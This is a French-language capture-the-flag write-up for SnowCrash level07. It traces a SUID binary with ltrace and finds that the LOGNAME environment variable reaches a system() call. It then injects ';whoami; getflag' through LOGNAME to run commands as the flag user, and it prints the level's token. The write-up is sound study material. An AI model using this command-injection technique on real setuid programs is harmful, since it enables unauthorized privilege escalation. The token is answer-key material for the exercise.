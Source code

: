On tombe sur un script dans le home, en l'executant, il retourne simplement cela :

```
level07@SnowCrash:~$ ./level07
level07
```

Lorsqu'on lance ltrace pour en savoir plus sur les flux d'appel de fonctions du programme, on trouve ceci : 

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

LOGNAME correspond donc à level07, et si on change LOGNAME, l'exécution de l'appel à system aussi : 


```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff804, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "test"
asprintf(0xbffff754, 0x8048688, 0xbfffff6c, 0xb7e5ee55, 0xb7fed280) = 15
system("/bin/echo test "test
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

On voit qu'on peut lui faire lancer des commandes en ajoutant par exemple un ; afin de lancer une nouvelle commande à la suite de echo :

```
level07@SnowCrash:~$ LOGNAME=';whoami'
level07@SnowCrash:~$ ./level07 

flag07
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7d4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = ";whoami"
asprintf(0xbffff724, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo ;whoami "
level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

Ici on peut voir que /bin/echo est lancé en première commande, donnant l'espace vide, puis la commande whoami est lancée, retournant flag07 au lieu de level07 puisque le bit SUID est activé sur le programme.
Ajoutons simplement un getflag supplémentaire, et voici le résultat :

```
level07@SnowCrash:~$ LOGNAME=';whoami; getflag'
level07@SnowCrash:~$ ./level07 

flag07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Cette vulnérabilité est connue sous le nom de **env variable injection**, un autre exemple d'utilisation ici au level02 : 

- https://int0x33.medium.com/day-29-set-user-id-environment-variable-injection-path-user-for-linux-priv-esc-ea6c0adc19b8

